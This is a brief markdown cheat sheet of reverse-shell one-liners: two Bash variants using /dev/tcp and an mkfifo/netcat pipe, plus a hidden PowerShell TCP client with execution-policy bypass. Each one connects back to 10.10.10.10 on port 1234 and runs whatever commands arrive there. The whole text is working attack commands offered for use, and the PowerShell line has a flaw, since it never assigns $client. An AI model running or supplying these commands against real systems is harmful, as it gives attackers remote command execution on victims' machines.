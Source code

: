 # REVERSE SHELL
## Reliable command to spun up a reverse shell to connect back to the attacker
### Bash 1
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
### Bash 2
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`

### Powershell command
`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
`

### Both commands creates a TCP client connection to the IP address "10.10.10.10" on port 1234. It establishes a network stream and reads data from that stream. The received data is then executed as a Bash and PowerShell command, and the output is sent back to the client.


